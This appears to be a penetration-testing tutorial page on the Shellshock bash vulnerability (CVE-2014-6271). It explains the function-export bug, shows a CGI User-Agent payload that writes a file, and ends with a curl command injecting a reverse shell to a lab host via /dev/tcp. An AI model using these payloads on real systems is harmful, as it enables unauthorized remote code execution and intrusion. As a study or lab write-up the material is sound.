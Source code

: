```yaml
---
description: >-
  Known as the “Bash Bug” or “ShellShock,” the GNU Bash Remote Code Execution
  Vulnerability (CVE-2014-6271) could allow an attacker to gain control over a
  targeted computer if exploited successfully.
---
```


# Shellshock

## Explanation

{% embed url="https://www.symantec.com/connect/blogs/shellshock-all-you-need-know-about-bash-bug-vulnerability" %}

Shellshock - [CVE-2014-6271](http://www.cvedetails.com/cve/cve-2014-6271) and [CVE-2014-6278](http://www.cvedetails.com/cve/cve-2014-6278) - was a serious vulnerability found in the Bash command shell, which is commonly used in Linux distributions. The vulnerability allowed attackers to run arbitrary commands on an affected system. The most commonly affected webs server where the ones using the [CGI Environment](http://www.cgi101.com/book/ch3/text.html).

In general - Bash allows the exporting of shell function to other bash instances on the server. It is done by creating an environmental variable with the function definition as such…

```text
env ENV_VAR_FN=’() { <your function> };’
```

The **ENV\_VAR\_FN** is the function that is executed in the bash instance. Unfortunately, there was a bug in the implementation of this to where the function continued to read and execute beyond the function definition - allowing to run additional code. Technically it should have stopped reading past the function definition, marked with a `;`.

```text
env ENV_VAR_FN=’() { <your function> }; <attacker code here>’
```

Many services were affected by this bug. Any web server that consumed user input and added the input to the bash environment, was vulnerable. A possible exploit in the CGI Environment would look like this.

```text
GET /<server path> HTTP/1.1

User-agent: () { :;}; echo something>/var/www/html/new_file
```

This command would create a file called **new\_file**, which an attacker could use to their advantage. 

## Exploiting

```text
# Nikto give us 
+ OSVDB-112004: /cgi-bin/status: Site appears vulnerable to the 'shellshock' vulnerability (http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271).
```

So, since we now know that **cgi-bin/status** is exploitable, and we know “how” to exploit it, let go ahead and do so!

We will be leveraging the [cURL](https://curl.haxx.se/docs/manpage.html) command for this vulnerability. This way we can send edited User-Agent header information that will be accepted by the CGI’s Bash environment.

```text
# Shellshock exploit using curl
root@kali:~# curl -x http://192.168.1.9:3128 -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/192.168.1.7/1234 0>&1" http://192.168.1.9/cgi-bin/status
```

